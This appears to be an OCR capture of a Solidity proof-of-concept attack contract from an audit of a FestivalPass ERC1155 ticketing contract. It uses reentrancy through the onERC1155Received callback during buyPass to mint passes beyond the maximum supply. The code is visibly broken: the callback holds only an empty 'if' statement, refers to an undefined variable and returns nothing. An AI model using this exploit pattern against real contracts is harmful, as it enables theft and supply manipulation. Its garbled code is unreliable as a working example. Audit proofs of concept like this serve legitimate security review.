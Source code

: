 Attack : 

```Solidity
//SPDX-License-Identifier: MIT
pragma solidity 0.8.25;

import "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";
import "../src/FestivalPass.sol";
import "./FestivalPass.t.sol";
import {console} from "forge-std/Test.sol";

contract AttackBuyPass{
	address immutable onlyOnwer;
	FestivalPassTest immutable festivalPassTest;
	FestivalPass immutable festivalPass;
	uint256 immutable collectionId;
	uint256 immutable configPassPrice;
	uint256 immutable configPassMaxSupply;
	
	uint256 hackMintCount = 0;
	
	constructor(FestivalPassTest _festivalPassTest, FestivalPass _festivalPass, uint256 _collectionId, uint256 _configPassPrice, uint256 _configPassMaxSupply) payable {
		onlyOnwer = msg.sender;
		
		festivalPassTest = _festivalPassTest;
		festivalPass = _festivalPass;
		collectionId = _collectionId;
		configPassPrice = _configPassPrice;
		configPassMaxSupply = _configPassMaxSupply;
	
		hackMintCount = 1;
	}
	
	receive() external payable {}
	fallback() external payable {}
	
	function DoAttackBuyPass() public {
		require(msg.sender == onlyOnwer, "AttackBuyPass: msg.sender != onlyOnwer");
	
		// This attack can only bypass the "maximum supply" restriction.
		festivalPass.buyPass{value: configPassPrice}(collectionId);
	}
	
	function onERC1155Received(
		address operator,
		address from,
		uint256 id,
		uint256 value,
		bytes calldata data
	) external returns (bytes4){
		if (hackMintCount == festivalPass.passMaxSupply(targetPassId));
	}
}
```
